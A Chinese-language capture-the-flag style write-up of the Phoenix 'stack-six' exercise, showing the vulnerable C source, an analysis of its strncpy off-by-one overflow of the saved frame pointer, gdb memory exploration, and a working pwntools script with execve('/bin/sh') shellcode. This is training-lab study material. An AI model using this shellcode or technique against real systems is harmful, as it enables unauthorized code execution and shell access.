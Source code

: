 ```yaml
---
title: "[pwn笔记3]stack-six(phoenix)"
urlname: "[pwn笔记3]"
tags: [stack, pwn]
date: April 30, 2023 10:11 PM
---
```


## 听说把这段写进~/.gdbinit里面会让栈的情况更加真实（在调试的时候）

（参考[https://n1ght-w0lf.github.io/binary exploitation/stack-six/](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/)）

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```

## 然后这是本题源码

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

## 理论

其中greet函数有两点错误：

- strncpy函数不会自动在末尾添加\0，而strdup是根据\0来判断结尾的

- strncpy的起始地址是buffer + GREET的长度，但复制长度确是maxSize，导致了末尾有个跟GREET一样长的区域可以溢出（好像减了1）。

调试一下发现，覆盖不到返回地址，但是可以覆盖到压进栈里的rbp的最后两位。

众所周知（不知道的看这个<https://zhuanlan.zhihu.com/p/27339191>），进入函数时会执行：

```nasm
call xxx
;相当于
;push $+1
;jmp xxx
push rbp
mov rbp, rsp
sub rsp, xxx
```

而函数返回时执行的

```nasm
leave
ret
```

相当于

```nasm
mov rsp, rbp
pop rbp
pop rip
```

当我们把greet函数栈里面存着的（前）rbp改为了x。

那么`*x`就会变成main函数的栈底，`*x+8`就会变成main函数的返回地址。

## 理论存在，实践开始

gdb调试一下，能改的范围在：0x7fffffffe500~0x7fffffffe5ff

用这个命令看看这个范围里都有什么东西

```
x/32xg 0x00007fffffffe500
```

顺便确定一下我们输入的东西在哪。（注意不在栈的范围的东西不能要了（存疑），所以我们搜环境变量）

```
(gdb) grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeee5 - 0x7fffffffef1c  →   "ExploitEducation=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
```

去掉开头，确定我们输入的范围

```
>>> hex(0xeee5+len("ExploitEducation="))
'0xeef6'
>>> hex(0xeee5+126)
'0xef63'
```

回到之前看的范围（好像这样写顺序不太对，不管了）

`0x7fffffffe5c8`里正好是`0x00007fffffffeef6`，你说巧不巧

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'\x90'*20
shellcode += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode += b"A"*(126-len(shellcode))+b'\xc0'

sh = shell.run("/opt/phoenix/amd64/stack-six", env={"ExploitEducation": shellcode})
print(sh.recvline())
sh.interactive()
```

好了。

![]([pwn笔记3]%2073a412be24d94419b5e23f937cfdf3af-img/2023-05-01-22-22-48-image.png)
